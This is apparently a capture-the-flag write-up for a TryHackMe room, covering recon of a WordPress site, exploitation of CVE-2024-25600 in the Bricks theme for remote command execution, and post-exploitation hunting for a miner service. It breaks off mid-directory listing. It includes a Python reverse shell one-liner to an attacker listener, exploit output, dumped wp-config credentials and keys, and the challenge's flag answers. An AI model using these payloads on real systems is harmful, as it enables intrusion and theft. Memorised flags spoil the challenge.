




## Room setup

First we can add the IP target to the `/etc/hosts`  file so it’s easier to interact with the target machine.

```bash
10.10.254.241 target bricks.thm
```

This allows us to access the IP address `10.10.254.241` via the following names : target and bricks.thm

## Initial Recon & Observations

First let’s make a quick agressive scan, in order to have a better view of the target machine.

We can do that with the following Nmap command.

```bash
nmap -A target -oX initial_scan.xml -oN initial_scan.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-24 11:53 CEST
Nmap scan report for target (10.10.254.241)
Host is up (0.040s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f8:af:e6:af:f6:00:fb:d6:7a:aa:d6:7a:40:31:7d:6e (RSA)
|   256 f4:c7:1a:24:8e:15:0d:ea:67:1f:65:2d:e4:7d:dd:5f (ECDSA)
|_  256 e9:44:bf:6a:7c:aa:bc:38:2d:67:d3:9d:7f:a6:f0:64 (ED25519)
80/tcp   open  http     Python http.server 3.5 - 3.10
|_http-server-header: WebSockify Python/3.8.10
|_http-title: Error response
443/tcp  open  ssl/http Apache httpd
|_http-generator: WordPress 6.5
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2024-04-02T11:59:14
|_Not valid after:  2025-04-02T11:59:14
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Brick by Brick
| tls-alpn: 
|   h2
|_  http/1.1
3306/tcp open  mysql    MySQL (unauthorized)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   38.70 ms 10.8.0.1
2   39.69 ms target (10.10.254.241)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.83 seconds
```

**Command explanation** : We start a Nmap scan using the agressive template (`-A`) then, we specify to save the result in two files named respectively `scan_initial.xml` and `scan_initial.txt`→ a XML file using the `-oX`  flag and a text file with the `-oN` one. We do that so we don’t have to scan the machine again and again.

The scan shows us very interesting stuff let’s view it in a table.

Using my tool Nmap2table ([Available here](https://github.com/0xMR007/Nmap2Table)) we get the following markdown table :

### Host : 10.10.47.101 (target)

| Port/Protocol | State | Service | Version |
| --- | --- | --- | --- |
| 22/tcp | open | ssh | OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 |
| 80/tcp | open | http | Python http.server 3.5 - 3.10 |
| 443/tcp | open | http | Apache httpd |
| 3306/tcp | open | mysql | MySQL |

### NSE Scripts :

```bash
Port 22 :
ssh-hostkey:

  3072 f8:af:e6:af:f6:00:fb:d6:7a:aa:d6:7a:40:31:7d:6e (RSA)
  256 f4:c7:1a:24:8e:15:0d:ea:67:1f:65:2d:e4:7d:dd:5f (ECDSA)
  256 e9:44:bf:6a:7c:aa:bc:38:2d:67:d3:9d:7f:a6:f0:64 (ED25519)

Port 80 :
http-server-header:
WebSockify Python/3.8.10

http-title:
Error response

Port 443 :
http-generator:
WordPress 6.5

ssl-date:
TLS randomness does not represent time

http-server-header:
Apache

ssl-cert:
Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
Not valid before: 2024-04-02T11:59:14
Not valid after:  2025-04-02T11:59:14

http-robots.txt:
1 disallowed entry
/wp-admin/

http-title:
Brick by Brick

tls-alpn:

  h2
  http/1.1

TRACEROUTE (using port 1720/tcp)
HOP RTT        ADDRESS
1   38.70 ms   10.8.0.1
2   39.69 ms   10.10.254.241

```

Let’s summarize what we know for now about the target machine :

- Port 22 : SSH port is open + OpenSSH (8.2 ?) is running on the target + thanks to the version scan the target is probably running on Ubuntu

- Port 80 : The target machine appears to be hosting a website + it seems to be a Python webserver running versions between 3.5 - 3.10. This is confirmed by the `http-server-header` script which give us `WebSockify Python/3.8.10` .

- Port 443 : HTTPS is enabled, the target machine is running an Apache server probably with Wordpress on it. Indeed, this is confirmed by the script `http-generator` → We got a Wordpress version 6.5 (we should confirmed that during the web enum). We found a robots.txt with a disallowed entry (apparently `/wp-admin/`).

→ Having two different web-services running on the target machine surprised me however, this is a frequent configuration for  : services separations, test/development, remote console, honeypot, etc.

- Port 3306 : For now the only info we have on this port is that Mysql is running on the target certainly for the website (backend).

## Web Enumeration

### Port 80

With all the informations we got from here, we should enumerate the web ports of the target machine as it serves both HTTP & HTTPS.

Let’s try to view the content on port 80 first using a browser



Using a browser we got a 405 HTTP error code → The method used (GET) is not allowed.

Hmm…well we can try to get the methods which are allowed using curl right ? Let’s try this.

```bash
curl -v -X OPTIONS http://bricks.thm/             
* Host bricks.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.218.10
*   Trying 10.10.218.10:80...
* Connected to bricks.thm (10.10.218.10) port 80
* using HTTP/1.x
> OPTIONS / HTTP/1.1
> Host: bricks.thm
> User-Agent: curl/8.14.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 501 Unsupported method ('OPTIONS')
< Server: WebSockify Python/3.8.10
< Date: Fri, 25 Jul 2025 20:02:33 GMT
< Connection: close
< Content-Type: text/html;charset=utf-8
< Content-Length: 500
< 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 501</p>
        <p>Message: Unsupported method ('OPTIONS').</p>
        <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
    </body>
</html>
* shutting down connection #0
```

Here we use the OPTIONS HTTP method which would let us know what HTTP methods are allowed. 

In this cas the OPTIONS isn’t supported !

We need to search somewere else.

Lets try banner grabing on this port using Netcat

```bash
nc -v target 80
target [10.10.218.10] 80 (http) open
```

Well we already know that the port is open + the connection is droped after 3s so this didn’t help us much.

I think we should focus on the Wordpress website, let’s try !

### Port 443

Let’s start like before by viewing the content of the website using a browser.



Nice ! We finally got something → A simple webpage with the text “**Brick by Brick!”** + an image of…bricks.

I quickly checked the source code, but it doesn’t give us anything interesting (at least this is what I thought more on that later).

So the first question is : *What is the content of the hidden .txt file in the web folder ?*

The first thing I thought about was fuzzing so let’s fuzz using ffuf

```bash
ffuf -u https://bricks.thm/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200 -e .txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://bricks.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Extensions       : .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

license.txt             [Status: 200, Size: 19915, Words: 3331, Lines: 385, Duration: 49ms]
robots.txt              [Status: 200, Size: 67, Words: 4, Lines: 4, Duration: 703ms]
robots.txt              [Status: 200, Size: 67, Words: 4, Lines: 4, Duration: 947ms]
:: Progress: [9492/9492] :: Job [1/1] :: 51 req/sec :: Duration: [0:03:36] :: Errors: 0 ::
```

Unfortunately, the flag isn’t in these files (I dont know why there is 2 robots.txt).

We only got the `/wp-admin/` entry be we already knew about it.

There is also an entry for `/wp-admin/admin-ajax.php` but I don’t think it is relevant.

So let’s continue our web enumeration by enumerating Wordpress.

Yet, Wappalyzer gives us some very interesting informations :

- Wordpress 6.5 → Version seems to be confirmed
- Python + PHP have been identified
- Wordpress theme : Bricks (like the name of the room ? interesting…) → Potential exploit ?

Let’s enumerate Wordpress with WP-scan to see what else can we get.

```bash
wpscan --url https://bricks.thm/
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

Scan Aborted: The url supplied 'https://bricks.thm/' seems to be down (SSL peer certificate or SSH remote key was not OK)
```

It seems we have a SSL error (probably due to HTTPS).

A quick search on this error tells us to use the `--disable-tls-checks` option which fixes the error.

So let’s try again.

```bash
wpscan --url https://bricks.thm/ --disable-tls-checks
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://bricks.thm/ [10.10.218.10]
[+] Started: Fri Jul 25 22:33:35 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: server: Apache
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: https://bricks.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://bricks.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://bricks.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://bricks.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.5 identified (Insecure, released on 2024-04-02).
 | Found By: Rss Generator (Passive Detection)
 |  - https://bricks.thm/feed/, <generator>https://wordpress.org/?v=6.5</generator>
 |  - https://bricks.thm/comments/feed/, <generator>https://wordpress.org/?v=6.5</generator>

[+] WordPress theme in use: bricks
 | Location: https://bricks.thm/wp-content/themes/bricks/
 | Readme: https://bricks.thm/wp-content/themes/bricks/readme.txt
 | Style URL: https://bricks.thm/wp-content/themes/bricks/style.css
 | Style Name: Bricks
 | Style URI: https://bricksbuilder.io/
 | Description: Visual website builder for WordPress....
 | Author: Bricks
 | Author URI: https://bricksbuilder.io/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.9.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://bricks.thm/wp-content/themes/bricks/style.css, Match: 'Version: 1.9.5'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <========================================> (137 / 137) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Jul 25 22:33:44 2025
[+] Requests Done: 170
[+] Cached Requests: 7
[+] Data Sent: 41.615 KB
[+] Data Received: 110.502 KB
[+] Memory used: 267.512 MB
[+] Elapsed time: 00:00:08
```

This scan gives us several informations, but there is one that really catch my attention :

The Wordpress theme (again !!) : Bricks → And now we got it’s version !

If this theme has vulns we could exploit it !

Let’s do this using searchsploit

```bash
searchsploit Bricks 1.9.5
Exploits: No Results
Shellcodes: No Results
Papers: No Results

searchsploit Bricks      
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
FLIR Brickstream 3D+ - RTSP Stream Disclosure                                        | hardware/webapps/45607.txt
FLIR Brickstream 3D+ 2.1.742.1842 - Config File Disclosure                           | hardware/webapps/45599.txt
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Well searchsploit didn’t help us much so let’s make a quick google search.

After making a simple google search “wordpress bricks vulns” we got the following CVE :

**CVE-2024-25600**

Its servery is set to High with a CVSS score of 10 !

This vuln exploits a flaw in the Bricks Builder plugin’s handling of user input which could lead to a RCE using a code injection exploit.

You will found the CVE down below + a link to the github repo to exploit it.

NVD link : https://nvd.nist.gov/vuln/detail/CVE-2024-25600

Github Repo : https://github.com/Chocapikk/CVE-2024-25600 (168 stars)

You can also make your own Python script but here I will use Chocapikk’s.

## Wordpress exploitation

Let’s start by cloning the exploit repo

```bash
git clone https://github.com/Chocapikk/CVE-2024-25600.git
Clonage dans 'CVE-2024-25600'...
remote: Enumerating objects: 51, done.
remote: Counting objects: 100% (51/51), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 51 (delta 18), reused 45 (delta 12), pack-reused 0 (from 0)
Réception d'objets: 100% (51/51), 20.83 Kio | 2.60 Mio/s, fait.
Résolution des deltas: 100% (18/18), fait.
```

In order to make a proper install it is highly recommended to create Python virtual environement to install the dependencies of the Python script.

To do that we can use the following command

```bash
python3 -m venv CVE-2024-25600-env # <- You can name it whatever you want
source CVE-2024-25600-env/bin/activate # We then activate the virtual environement
pip install -r requirements.txt # Only then we install the dependencies

# You can deactivate the venv using the following command
deactivate
```

Nice now let’s try to run the script !

```bash
chmod +x exploit.py # Give execution perm
python exploit.py -u https://bricks.thm/    
                                        
[*] Nonce found: 5f3fce1e00 # You can also get this value on the website source code
[+] https://bricks.thm/ is vulnerable to CVE-2024-25600. Command output: apache
[!] Shell is ready, please type your commands UwU
# id
uid=1001(apache) gid=1001(apache) groups=1001(apache)
```

Well that was fast ! We finally got a shell session awesome !

We can now retrieve the first flag under /data/www/default

```bash
# pwd
/data/www/default

# cat 650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```

## Q1 answer

The answer is **THM{fl46_650c844110baced87e1606453b93f22a}**

Now that we’ve got a shell on the target we might want to stabilize it as we can’t do much with it.

In order to do that I like using `pwncat` (https://github.com/calebstewart/pwncat) which is a really useful tool. Go check it out !

We can get a stable reverse shell using the following commands.

First start the pwncat listener

```bash
pwncat -lp 4444
[11:35:05] Welcome to pwncat 🐈!                                                                        __main__.py:164
bound to 0.0.0.0:4444
```

Then we can create a reverse shell in Python

```bash
# which python # We first check that Python is available on the target machine
/usr/bin/python

# Next we execute the Python reverse shell
# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<THM_LOCAL_IP",4444));[os.dup2(s.fileno(),f)for f in(0,1
,2)];pty.spawn("sh")'
```

```bash
pwncat -lp 4444
[11:35:05] Welcome to pwncat 🐈!                                                                        __main__.py:164
[11:37:48] received connection from 10.10.35.124:53306                                                       bind.py:84
[11:37:49] 0.0.0.0:4444: upgrading from /usr/bin/dash to /usr/bin/bash                                   manager.py:957
[11:37:50] 10.10.35.124:53306: registered new host w/ db                                                 manager.py:957
(local) pwncat$
# Using CTRL + D we get a clean reverse shell                                                                                                       
(remote) apache@tryhackme:/data/www/default$ id
uid=1001(apache) gid=1001(apache) groups=1001(apache)
```

**Note : I tried many reverse shell payloads (Bash, Netcat, Perl, etc) but I kept getting this error : `[-] No valid response received or target not vulnerable` . Only the Python one worked for me.**

## Post exploitation

Ok now that we’ve gained access to the target machine we need to find a “suspicious process”.

I tried using the `ps -aux` command but didn’t find anything.

```bash
ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 169644 12888 ?        Ss   08:58   0:02 /sbin/init
root           2  0.0  0.0      0     0 ?        S    08:58   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   08:58   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   08:58   0:00 [rcu_par_gp]
root           5  0.0  0.0      0     0 ?        I<   08:58   0:00 [slub_flushwq]
root           6  0.0  0.0      0     0 ?        I<   08:58   0:00 [netns]
root           8  0.0  0.0      0     0 ?        I<   08:58   0:00 [kworker/0:0H-events_highpri]
root          10  0.0  0.0      0     0 ?        I<   08:58   0:00 [mm_percpu_wq]
root          11  0.0  0.0      0     0 ?        S    08:58   0:00 [rcu_tasks_rude_]
root          12  0.0  0.0      0     0 ?        S    08:58   0:00 [rcu_tasks_trace]
[..................................................................................]
```

Let’s look around the system to see if there are interesting informations (creds, ssh keys, SUID files, etc).

### Local Enum

First we can take a look at the Wordpress config file which is `wp-config.php` 

```bash
(remote) apache@tryhackme:/data/www/default$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'root' );

/** Database password */
define( 'DB_PASSWORD', 'lamp.sh' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?HI~$7a0sn[(C=+kmx=JDV63[]sOnqKx|G51mk5f$igT~/NjljMgA#L dR]YUa z' );
define( 'SECURE_AUTH_KEY',  'VHqhArawbk GIa?/yw@5wKL8^n;X#1[~dx7ip/8d,CTMoowa7I>D>t]%,@V+Dff8' );
define( 'LOGGED_IN_KEY',    'N~l1*HAb~|6UV;]pkI./Tu11Z8$}1a{ZH0p2.z%221w]{vj<g?ELvb+qgWp u>r6' );
define( 'NONCE_KEY',        'Wu/sg/)nHQJ|sggXMb(@<,;NCc[AcMlL!5}p_N;fqmr-$Tt1Ex6x:(%T{{Ht&!Re' );
define( 'AUTH_SALT',        'zi$l=XQKDA0hF8Q4c(2]o_kU:!lz?;xuQkU3zB#8DnLZ6CUW:HX@%0FsG6=IRSZE' );
define( 'SECURE_AUTH_SALT', 'tiycIlY-:(Y)6I ayw2t/<#<RWUm6/,DsbY*;!ykNtT!B4|YM&($ u2X)mi.`r8z' );
define( 'LOGGED_IN_SALT',   '(kn%uPE>Up5}ehVO~}qG>]zfHO`oE[vdXzLi.N{)UlKcQ]cr/Vy*yisutrsJZ<&T' );
define( 'NONCE_SALT',       '6rzz2K[ztP}6KM ?5,c2S&)M!y;.}b6M/g{iOzO|sy;0.ePu ><z[v_0aHh$HD%}' );

/**#@-*/

/**
 * WordPress database table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/documentation/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* Add any custom values between this line and the "stop editing" line. */

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

Nice we now have some creds ! root:lamp.sh

Remember we need to found a suspicious process and next the service affiliated with it.

Let’s list all the services on the system using the following command

```bash
(remote) apache@tryhackme:/data/www/default$ systemctl list-units --type=service --state=running
  UNIT                                           LOAD   ACTIVE SUB     DESCRIPTION                                    >
  accounts-daemon.service                        loaded active running Accounts Service                               >
  acpid.service                                  loaded active running ACPI event daemon                              >
  atd.service                                    loaded active running Deferred execution scheduler                   >
  avahi-daemon.service                           loaded active running Avahi mDNS/DNS-SD Stack                        >
  cron.service                                   loaded active running Regular background program processing daemon   >
  cups-browsed.service                           loaded active running Make remote CUPS printers available locally    >
  cups.service                                   loaded active running CUPS Scheduler                                 >
  dbus.service                                   loaded active running D-Bus System Message Bus                       >
  getty@tty1.service                             loaded active running Getty on tty1                                  >
  httpd.service                                  loaded active running LSB: starts Apache Web Server                  >
  irqbalance.service                             loaded active running irqbalance daemon                              >
  kerneloops.service                             loaded active running Tool to automatically collect and submit kernel>
  lightdm.service                                loaded active running Light Display Manager                          >
  ModemManager.service                           loaded active running Modem Manager                                  >
  multipathd.service                             loaded active running Device-Mapper Multipath Device Controller      >
  mysqld.service                                 loaded active running LSB: start and stop MySQL                      >
  networkd-dispatcher.service                    loaded active running Dispatcher daemon for systemd-networkd         >
  NetworkManager.service                         loaded active running Network Manager                                >
  polkit.service                                 loaded active running Authorization Manager                          >
  rsyslog.service                                loaded active running System Logging Service                         >
  rtkit-daemon.service                           loaded active running RealtimeKit Scheduling Policy Service          >
  serial-getty@ttyS0.service                     loaded active running Serial Getty on ttyS0                          >
  snap.amazon-ssm-agent.amazon-ssm-agent.service loaded active running Service for snap application amazon-ssm-agent.a>
  snapd.service                                  loaded active running Snap Daemon                                    >
  ssh.service                                    loaded active running OpenBSD Secure Shell server                    >
  switcheroo-control.service                     loaded active running Switcheroo Control Proxy service               >
  systemd-journald.service                       loaded active running Journal Service                                >
  systemd-logind.service                         loaded active running Login Service                                  >
  systemd-networkd.service                       loaded active running Network Service                                >
  systemd-resolved.service                       loaded active running Network Name Resolution                        >
  systemd-timesyncd.service                      loaded active running Network Time Synchronization                   >
  systemd-udevd.service                          loaded active running udev Kernel Device Manager                     >
  ubuntu.service                                 loaded active running TRYHACK3M                                      >
  udisks2.service                                loaded active running Disk Manager                                   >
  unattended-upgrades.service                    loaded active running Unattended Upgrades Shutdown
```

There’s a lot of services that are running but one stand out (the description contains TRYHACK3M which is relevant to the challenge) :

```bash
ubuntu.service                                 loaded active running TRYHACK3M          >
```

This service is the answer to the Q3.

Let’s view the content of this service file.

```bash
(remote) apache@tryhackme:/data/www/default$ systemctl cat ubuntu.service
# /etc/systemd/system/ubuntu.service
[Unit]
Description=TRYHACK3M

[Service]
Type=simple
ExecStart=/lib/NetworkManager/nm-inet-dialog
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Nice, now we also have the answer to the Q2 !

## Q2 & Q3 answers

So far we got :

- Q2 answer which is `nm-inet-dialog`
- Q3 answer which is `ubuntu.service`

## Q4  : What is the log file name of the miner instance ?

Ok now we’ve got the exact location of `nm-inet-dialog` which is under `/lib/NetworkManager` .

Le’ts go there and see what we can find.

```bash
(remote) apache@tryhackme: cd /lib/NetworkManager
(remote) apache@tryhackme:/lib/NetworkManager$ ls -la
total 8636
drwxr-xr-x   6 root root    4096 Apr  8  2024 .
drwxr-xr-x 148 root root   12288 Apr  2  2024 ..
drwxr-xr-x   2 root root    4096 Feb 27  2022 VPN
drwxr-xr-x   2 root root    4096 Apr  3  2024 conf.d
drwxr-xr-x   5 root root    4096 Feb 27  2022 dispatcher.d
-rw-r--r--   1 root root   48190 Apr 11  2024 inet.conf
